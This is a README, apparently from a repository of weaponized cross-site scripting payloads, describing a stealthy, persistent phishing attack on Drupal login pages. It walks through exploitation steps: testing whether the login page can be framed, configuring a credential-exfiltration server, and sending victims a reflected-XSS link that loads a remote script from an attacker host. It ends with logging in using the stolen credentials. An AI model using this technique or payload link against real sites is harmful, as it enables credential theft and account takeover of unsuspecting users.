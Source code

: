 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>
